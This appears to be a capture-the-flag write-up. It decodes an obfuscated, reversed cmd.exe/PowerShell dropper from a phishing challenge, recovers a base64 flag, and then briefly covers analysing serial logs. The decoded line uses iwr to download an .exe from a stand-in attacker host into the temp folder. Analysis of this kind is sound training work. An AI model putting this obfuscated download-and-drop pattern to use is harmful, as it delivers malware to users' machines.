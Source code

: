 ```
cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

#### Decoding
URL-decode
```
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&&for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%"
```

Notice that `o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop` is reversed

```sh
$ echo "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$\" c- llehsrewop" |rev
powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```

**Part of the flag**
```
[alienphish] $ echo "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99" |base64 -d
CHTB{pH1sHiNg_w0_m4cr0sbase64: invalid input
```

The first and second parts of the b64 around the `_`-character look like balid b64, so probably the `_` should be changed to fix the b64 standards.

```
echo "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM/Pz99" |base64 -d
CHTB{pH1sHiNg_w0_m4cr0s???}
```

#### Flag
CHTB{pH1sHiNg_w0_m4cr0s???}

## Hardware

### ~~Serial Logs~~
*Pingnu*

Sal file contains two data channels. 0 contains no data. 1 is aynchronous serial data.

#### How to analyze
1. Open .sal file in [saleae Logic 2](https://www.saleae.com/downloads/)
2. Go to "Analyzers"
3. Click on "Async Serial"
4. Set baud rate (Bits/s) to 115200 (default baud rate for raspi serial)
5. Press save
6. Press on the terminal icon
